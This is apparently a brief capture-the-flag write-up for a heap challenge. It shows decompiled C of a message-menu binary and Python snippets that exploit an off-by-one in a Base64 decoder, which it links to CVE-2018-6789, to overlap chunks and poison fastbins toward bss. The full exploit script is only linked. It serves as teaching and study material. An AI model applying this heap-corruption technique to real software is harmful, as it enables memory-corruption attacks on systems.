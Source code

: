 ## Problem:

Bin: [d](d)

Libc: [libc-2.23.so](libc-2.23.so)

## Solution:

```c
int nemu_choice()
{
  puts("1. read message");
  puts("2. edit message");
  puts("3. wipe message");
  puts("4. exit");
  return read_int();
}
```

```c
unsigned __int64 Read()
{
  int v1; // [rsp+Ch] [rbp-414h]
  char v2; // [rsp+10h] [rbp-410h]
  unsigned __int64 v3; // [rsp+418h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = read_int();
  if ( v1 >= 0 && v1 <= 63 && !ptr[v1] )
  {
    printf("msg:");
    read_input((__int64)&v2, 0x400u);
    Base64decode(&v2, &ptr[v1]);
  }
  return __readfsqword(0x28u) ^ v3;
}
```
In case problem is in `Base64decode` . I think this idea comes from `CVE-2018-6789` of `exim4`

From `Base64decode` i will trigger of by one to exploit.

First i create three chunk:
```py
Read(0, b64encode("a"*0x20))
Read(1, b64encode("a"*0x20))
Read(2, b64encode("a"*0x60))
```
Next i `free()` `chunk 0` and allocate it again and overwrite size of `chunk 1` to fake `chunk 1` overlap `chunk 2`
```py
Read(0, b64encode("\x60"*0x29)[:-1]) #over next chunk size
```

Edit chunk 2 to set next chunk size of `fake chunk 1`
```py
payload = "a"*0x28
payload += p64(0x71)
Edit(2, payload)
```

`Free(1)` and `Free(2)` to create fastbins `0x60` and `0x70`
Create chunk size `0x60` to fake one more fastbins `0x70`to bss.

And more please see more in my solution: [exploit.py](exploit.py)